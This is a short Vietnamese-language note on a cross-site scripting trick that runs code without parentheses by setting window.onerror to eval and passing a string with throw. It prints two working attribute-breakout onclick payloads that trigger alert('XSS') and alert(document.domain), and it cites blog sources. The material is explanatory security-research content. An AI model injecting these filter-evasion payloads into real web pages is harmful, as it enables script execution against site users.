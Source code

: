 Payload trên sẽ gán function **eval** cho **error handler** sau đó truyền tham số đến cho function **eval** bằng **throw** function

Lưu ý:
 - Ta không cần một lỗi thực tế để trigger error
 - **throw** statement được sử dụng để truyền string `=alert\u0028\'XSS\'\u0029`
 - Khi sử dụng **onerror** mà không có **window**, nó sẽ tham chiếu tới biến cục bộ, không giống với biến toàn cục **window.onerror**

## Payload

```
" onclick="window.onerror=eval;throw '=alert\u0028\'XSS\'\u0029'"
```

```
" onclick="window.onerror=eval;throw '=alert\u0028document.domain\u0029'"
```

## Nguồn:
https://graneed.hatenablog.com/entry/2018/11/23/222842#Case-08-2-Without-any-backquotes-parentheses-HTML-tags-and-
http://www.thespanner.co.uk/2012/05/01/xss-technique-without-parentheses/

